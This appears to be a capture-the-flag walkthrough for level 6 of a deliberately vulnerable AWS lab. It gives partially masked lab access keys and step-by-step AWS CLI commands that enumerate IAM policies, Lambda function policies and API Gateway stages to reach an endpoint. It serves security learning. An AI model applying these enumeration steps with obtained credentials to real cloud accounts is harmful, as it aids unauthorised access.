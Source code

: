 Takeaway: Do not allow access to 169.254.169.254 by applications.

**Access level 6 with keys**
provided keys to level 6

    Access key ID: AKIAxxxxxxx3OBGA
    Secret: S2IpymMBlVxxxxxxxxxxx+dZ4ps+u


add to `/.aws/credentials`

![](https://paper-attachments.dropbox.com/s_6D19BB1F45E592221C2BD8A330A211A728A82C8FB50B08B3D5519C6EEB837193_1642272993376_image.png)


**Security Group Audiot**

    aws --profile level6 iam get-user

![](https://paper-attachments.dropbox.com/s_6D19BB1F45E592221C2BD8A330A211A728A82C8FB50B08B3D5519C6EEB837193_1642273079382_image.png)

**List policies attached to user**

    aws --profile level6 iam list-attached-user-policies --user-name Level6

![](https://paper-attachments.dropbox.com/s_6D19BB1F45E592221C2BD8A330A211A728A82C8FB50B08B3D5519C6EEB837193_1642273139174_image.png)

“list_apigateways” a custom policy created 

**View IAM policy**

    aws --profile level6 iam get-policy  --policy-arn arn:aws:iam::975426262029:policy/list_apigateways

![](https://paper-attachments.dropbox.com/s_6D19BB1F45E592221C2BD8A330A211A728A82C8FB50B08B3D5519C6EEB837193_1642273220239_image.png)

using ARN to view policy:

     aws --profile level6 iam get-policy-version  --policy-arn arn:aws:iam::975426262029:policy/list_apigateways --version-id v4

![](https://paper-attachments.dropbox.com/s_6D19BB1F45E592221C2BD8A330A211A728A82C8FB50B08B3D5519C6EEB837193_1642273269581_image.png)

Policy is using “apigateway:GET” on the “arn:aws:apigateway:us-west-2::/restapis/*

**Using apigateway to GET - List Lamda Functions**

    aws --region us-west-2 --profile level6 lambda list-functions

![](https://paper-attachments.dropbox.com/s_6D19BB1F45E592221C2BD8A330A211A728A82C8FB50B08B3D5519C6EEB837193_1642273375416_image.png)

**Get Policy for Lamda**

    aws --region us-west-2 --profile level6 lambda get-policy --function-name Level6

![](https://paper-attachments.dropbox.com/s_6D19BB1F45E592221C2BD8A330A211A728A82C8FB50B08B3D5519C6EEB837193_1642273426625_image.png)

The ability to execute arn:aws:execute-api:us-west-2:975426262029:s33ppypa75/*/GET/level6\` That "s33ppypa75" is a rest-api-id

    aws --profile level6 --region us-west-2 apigateway get-stages --rest-api-id "s33ppypa75"
